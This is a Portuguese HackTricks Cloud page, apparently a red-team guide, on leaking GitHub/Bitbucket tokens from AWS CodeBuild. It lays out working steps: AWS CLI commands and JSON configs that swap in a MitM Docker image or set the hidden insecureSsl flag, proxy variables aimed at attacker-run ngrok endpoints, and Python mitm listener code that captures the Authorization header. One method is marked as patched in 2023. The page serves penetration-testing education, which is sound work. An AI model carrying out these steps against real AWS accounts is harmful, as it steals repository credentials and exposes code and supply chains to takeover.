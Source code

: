 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Recuperar Tokens Configurados do Github/Bitbucket

Primeiro, verifique se há credenciais de origem configuradas que você poderia vazar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Se você descobrir que a autenticação para, por exemplo, Github está configurada na conta, você pode **exfiltrar** esse **acesso** (**token GH ou token OAuth**) fazendo com que o Codebuild **use uma imagem docker específica** para executar a construção do projeto.

Para isso, você poderia **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **imagem Docker**.

A imagem Docker que você poderia usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que irá definir as **variáveis de ambiente `https_proxy`**, **`http_proxy`** e **`SSL_CERT_FILE`**. Isso permitirá que você intercepte a maior parte do tráfego do host indicado em **`https_proxy`** e **`http_proxy`** e confie no SSL CERT indicado em **`SSL_CERT_FILE`**.

1. **Crie e faça upload da sua própria imagem Docker MitM**
* Siga as instruções do repositório para definir o endereço IP do seu proxy e configurar seu certificado SSL e **construa a imagem docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações ao endpoint de metadados.
* Você poderia usar **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host.
* Uma vez que você tenha a imagem Docker construída, **faça upload para um repositório público** (Dockerhub, ECR...)
2. **Defina o ambiente**
* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
* Defina o projeto para usar a **imagem Docker gerada anteriormente**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Defina o proxy MitM no seu host**

* Como indicado no **repositório Github**, você poderia usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
A **versão do mitmproxy utilizada foi 9.0.1**, foi relatado que com a versão 10 isso pode não funcionar.
{% endhint %}

4. **Execute a construção e capture as credenciais**

*   Você pode ver o token no cabeçalho **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Isso também pode ser feito a partir do aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projetos têm uma configuração chamada **`insecureSsl`** que está oculta na web e você só pode alterá-la pela API.\
Ativar isso permite que o Codebuild se conecte ao repositório **sem verificar o certificado** oferecido pela plataforma.

* Primeiro, você precisa enumerar a configuração atual com algo como:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Em seguida, com as informações coletadas, você pode atualizar a configuração do projeto **`insecureSsl`** para **`True`**. O seguinte é um exemplo da minha atualização de um projeto, note o **`insecureSsl=True`** no final (esta é a única coisa que você precisa mudar na configuração coletada).
* Além disso, adicione também as variáveis de ambiente **http\_proxy** e **https\_proxy** apontando para o seu tcp ngrok como: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Em seguida, execute o exemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta indicada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via protocolo HTTP~~

{% hint style="success" %}
**Essa vulnerabilidade foi corrigida pela AWS em algum momento da semana do dia 20 de fevereiro de 2023 (acho que na sexta-feira). Portanto, um atacante não pode mais abusar disso :)**
{% endhint %}

Um atacante com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões foram configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um atacante poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Em seguida, mude a URL do repositório do github para usar HTTP em vez de HTTPS, por exemplo: `http://github.com/carlospolop-forks/TestActions`
* Em seguida, execute o exemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta apontada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante poderá usar o token de sua máquina, listar todos os privilégios que possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
